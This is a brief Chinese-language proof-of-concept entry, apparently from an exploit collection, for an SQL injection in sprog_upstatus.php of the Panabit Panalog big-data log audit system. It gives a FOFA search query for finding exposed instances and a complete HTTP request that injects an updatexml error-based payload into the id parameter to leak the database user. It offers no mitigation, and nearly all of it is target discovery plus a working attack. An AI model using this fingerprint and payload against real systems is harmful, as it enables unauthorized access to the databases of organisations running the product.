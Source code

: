 # 北京派网软件有限公司Panabit-Panalog大数据日志审计系统sprog_upstatus.php存在SQL注入漏洞

北京派网软件有限公司Panabit-Panalog大数据日志审计系统sprog_upstatus.php存在SQL注入漏洞，攻击者利用该漏洞可获取数据库权限。

## fofa

```java
body="Maintain/cloud_index.php"
```

## poc

```java
GET /Maintain/sprog_upstatus.php?status=1&id=1%20and%20updatexml(1,concat(0x7e,user()),0)&rdb=1 HTTP/1.1
Host: 
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Connection: keep-alive
Cookie: PHPSESSID=f8la8ttr74fkge0pttpc626p45
```

![image-20240730213144361](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407302131431.png)